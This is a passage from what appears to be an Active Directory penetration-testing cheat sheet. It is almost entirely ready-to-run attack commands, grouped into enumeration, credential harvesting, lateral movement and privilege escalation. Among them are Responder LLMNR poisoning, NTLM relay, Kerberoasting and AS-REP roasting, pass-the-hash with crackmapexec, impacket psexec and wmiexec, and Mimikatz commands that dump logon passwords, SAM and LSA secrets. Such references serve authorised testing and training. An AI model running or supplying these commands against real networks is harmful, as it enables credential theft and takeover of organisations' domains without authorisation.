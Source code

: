 ### Phase 2: Enumeration
```bash
# Without credentials
enum4linux -a dc_ip
ldapsearch -x -h dc_ip -s base namingcontexts

# With credentials
crackmapexec smb dc_ip -u username -p password --users
crackmapexec smb dc_ip -u username -p password --groups
crackmapexec smb dc_ip -u username -p password --shares

# Bloodhound data collection
bloodhound-python -d domain.com -u username -p password -ns dc_ip -c all
```

### Phase 3: Credential Harvesting
```bash
# LLMNR/NBT-NS poisoning
responder -I eth0 -wrf

# SMB relay
ntlmrelayx.py -tf targets.txt -smb2support

# Kerberoasting
impacket-GetUserSPNs domain.com/username:password -dc-ip dc_ip -request

# AS-REP roasting
impacket-GetNPUsers domain.com/ -usersfile users.txt -dc-ip dc_ip
```

### Phase 4: Lateral Movement
```bash
# Pass the hash
crackmapexec smb 192.168.1.0/24 -u username -H ntlm_hash --local-auth

# PSExec
impacket-psexec domain/username:password@target_ip

# WMI
impacket-wmiexec domain/username:password@target_ip

# Check local admin access
crackmapexec smb 192.168.1.0/24 -u username -p password --local-auth
```

### Phase 5: Privilege Escalation
```bash
# Find Domain Admins
net group "Domain Admins" /domain

# Check privileges
whoami /priv
whoami /groups

# Mimikatz (on compromised system)
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
```
